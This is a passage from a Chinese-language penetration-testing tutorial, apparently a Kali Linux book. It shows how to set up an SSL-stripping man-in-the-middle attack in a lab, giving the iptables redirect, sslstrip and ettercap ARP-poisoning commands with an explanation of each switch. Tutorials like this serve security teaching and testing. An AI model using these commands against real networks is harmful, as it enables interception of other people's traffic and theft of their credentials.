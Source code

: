 接下来，使用以下命令设置`iptables`防火墙，将 HTTP 流量重定向到`sslstrip`：

```
root@kali:~# iptables –t nat –A PREROUTING –p tcp
  –destination-port 80 –j REDIRECT –to-port <listenport> 

```

在这个例子中，监听端口已设置为端口 5353。

现在配置完成后，使用以下命令运行`sslstrip`：

```
root@kali:~# sslstrip –l 5353

```

以下截图显示了先前命令的执行情况：

![使用 sslstrip 进行中间人攻击](img/3121OS_10_16.jpg)

最小化执行`sslstrip`的活动终端窗口，并打开一个新的终端窗口。使用以下命令使用`ettercap`来欺骗 ARP 并将流量从网络或目标系统直接重定向到拦截系统：

```
root@kali:~# ettercap –TqM arp:remote /192.168.75.128/ /192.168.75.2/

```

在这里，`ettercap -T`开关选择文本界面，`-q`强制控制台进入安静模式，`-M`选项激活中间人攻击以劫持和重定向数据包。`arp:remote`开关实施 ARP 毒化攻击，并将攻击者置为中间人，能够查看和修改传输中的数据包。如果要查看远程 IP 地址和通过网关的通信，则需要`remote`部分的开关。

上面命令的执行结果如下截图所示：
